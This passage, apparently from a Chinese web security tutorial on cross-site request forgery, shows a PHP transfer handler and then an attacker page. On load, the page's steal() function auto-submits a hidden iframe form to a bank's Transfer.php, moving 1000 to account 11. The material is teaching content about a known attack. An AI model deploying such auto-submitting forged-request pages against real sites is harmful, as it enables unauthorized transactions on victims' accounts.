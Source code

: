 　　　　    buy_stocks($_POST[<span class="hljs-string">'toBankId'</span>],　$_POST[<span class="hljs-string">'money'</span>]);
　　　　}
　　<span class="hljs-meta">?&gt;</span></span></code></pre>
<p>　　然而，危险网站B与时俱进，它改了一下代码：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<html>
　　<head>
　　　　<script type=&quot;text/javascript&quot;>
　　　　　　function steal()
　　　　　　{
          　　　　 iframe = document.frames[&quot;steal&quot;];
　　     　　      iframe.document.Submit(&quot;transfer&quot;);
　　　　　　}
　　　　</script>
　　</head>

　　<body onload=&quot;steal()&quot;>
　　　　<iframe name=&quot;steal&quot; display=&quot;none&quot;>
　　　　　　<form method=&quot;POST&quot; name=&quot;transfer&quot;　action=&quot;http://www.myBank.com/Transfer.php&quot;>
　　　　　　　　<input type=&quot;hidden&quot; name=&quot;toBankId&quot; value=&quot;11&quot;>
　　　　　　　　<input type=&quot;hidden&quot; name=&quot;money&quot; value=&quot;1000&quot;>
　　　　　　</form>
　　　　</iframe>
　　</body>
</html>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code><span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
　　<span class="hljs-tag">&lt;<span class="hljs-name">head</span>&gt;</span>
　　　　<span class="hljs-tag">&lt;<span class="hljs-name">script</span> <span class="hljs-attr">type</span>=<span class="hljs-string">"text/javascript"</span>&gt;</span><span class="javascript">
　　　　　　<span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">steal</span>(<span class="hljs-params"></span>)
　　　　　　</span>{
          　　　　 iframe = <span class="hljs-built_in">document</span>.frames[<span class="hljs-string">"steal"</span>];
　　     　　      iframe.document.Submit(<span class="hljs-string">"transfer"</span>);
　　　　　　}
　　　　</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
　　<span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>

　　<span class="hljs-tag">&lt;<span class="hljs-name">body</span> <span class="hljs-attr">onload</span>=<span class="hljs-string">"steal()"</span>&gt;</span>
　　　　<span class="hljs-tag">&lt;<span class="hljs-name">iframe</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"steal"</span> <span class="hljs-attr">display</span>=<span class="hljs-string">"none"</span>&gt;</span>
　　　　　　<span class="hljs-tag">&lt;<span class="hljs-name">form</span> <span class="hljs-attr">method</span>=<span class="hljs-string">"POST"</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"transfer"</span>　<span class="hljs-attr">action</span>=<span class="hljs-string">"http://www.myBank.com/Transfer.php"</span>&gt;</span>
　　　　　　　　<span class="hljs-tag">&lt;<span class="hljs-name">input</span> <span class="hljs-attr">type</span>=<span class="hljs-string">"hidden"</span> <span class="hljs-attr">name</span>=<span class="hljs-string">"toBankId"</span> <span class="hljs-attr">value</span>=<span class="hljs-string">"11"</span>&gt;</span>